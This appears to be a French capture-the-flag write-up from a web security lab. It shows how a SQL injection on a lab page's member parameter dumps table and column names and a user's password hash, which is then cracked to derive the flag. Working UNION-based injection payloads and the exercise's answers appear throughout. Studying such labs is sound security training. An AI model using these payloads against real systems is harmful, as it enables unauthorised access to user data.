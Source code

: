 # SQL INJECTION

## Flag
```
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```

## Découverte


Sur la page http://10.11.200.198/?page=member on injecte cette ligne de sql \
pour connaitre tous les users ainsi que le nom des tables et des colonnes:
```
1 or 1=1 UNION SELECT table_name, column_name FROM information_schema.columns
```
On peut faire un schéma de la table users:
```
|¯¯¯¯¯¯¯¯¯¯¯¯¯¯¯¯¯¯|
|   users table    |
|------------------|
| user_id          |
| first_name       |
| last_name        |
| town             |
| country          |
| planet           |
| Commentaire      |
| countersign      |
|__________________|
```
Un utilisateur semble être interessant:
```
First name: Flag
Surname : GetThe
```
Toujours avec le meme genre d'injection sql on peut extraire les informations \
de cet utilisateur:
```
1 or 1=1 UNION SELECT commentaire, countersign from users WHERE user_id=5

commentaire:
Decrypt this password -> then lower all the char. Sh256 on it and it's good !

countersign:
5ff9d0165b4f92b14994e5c685cdce28
```
countersign est crypté en md5 (merci google), en suivant les instructions du \
commentaire on ce retrouve avec:
```
5ff9d0165b4f92b14994e5c685cdce28 -> FortyTwo -> fortytwo -> 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```

## Documentation
- [owasp - sql injection](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [sqlinjection.net](https://www.sqlinjection.net/category/attacks)

---

[RETURN](https://github.com/jlange91/darkly)

